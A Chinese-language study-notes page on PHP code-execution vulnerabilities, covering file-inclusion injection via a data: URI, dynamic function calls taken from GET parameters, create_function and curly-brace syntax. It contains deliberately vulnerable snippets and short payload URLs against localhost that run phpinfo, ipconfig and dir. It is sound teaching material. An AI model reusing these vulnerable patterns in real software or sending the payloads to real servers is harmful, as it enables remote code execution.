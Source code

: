 ```yaml
---
layout: default
---
```

# ![](../img/hj.jpg)代码执行漏洞
>小贱提示： 这里只是说说方法，至于原理我也懒得说了，毕竟这是笔记嘛，笔记就是要简单方便查阅

## ![](../img/github23.png)文件包含代码注射
文件包含函数在特定条件下的代码注射，如
```
include()、
include_once()、
require()、
require_once()。
当allow_url_include=On ，PHP Version>=5.2.0 时，导致代码注射。
demo code 2.1:
<?php
include($_GET['a']);
?>
访问http://127.0.0.1/include.php?a=data:text/plain,%3C?php%20phpinfo%28%29;?%3E 即
执行phpinfo()。
```
## ![](../img/github24.png)动态执行代码
1、动态变量代码执行
```
<?php
$dyn_func = $_GET['dyn_func'];        //get接受参数作为函数名
$argument = $_GET['argument'];      //get接受参数作为参数
$dyn_func($argument);
?>

我们提交 http://127.0.0.1/dyn_func.php?dyn_func=system&argument=ipconfig 执行ipconfig命令
```
2、动态函数代码执行create_function（）
```
<?php
$foobar = $_GET['foobar'];
$dyn_func = create_function('$foobar', "echo $foobar;");
$dyn_func('');
?>

我们提交 http://127.0.0.1/create_function.php?foobar=system%28dir%29 执行dir命令
```
## ![](../img/github25.png)${ }
php的Curly Syntax也能导致代码执行，它将执行花括号间的代码，并将结果替换回去
举例1：
```
<?php
$var = "I was innocent until ${'ls'} appeared here"?>
会将ls结果返回
```
举例2：
```
<?php
$foobar = 'phpinfo';
${'foobar'}();?>
```
__原创文章，转载请注明转载自[http://www.8pwn.com](http://www.8pwn.com)__

[返回上一层](./web)
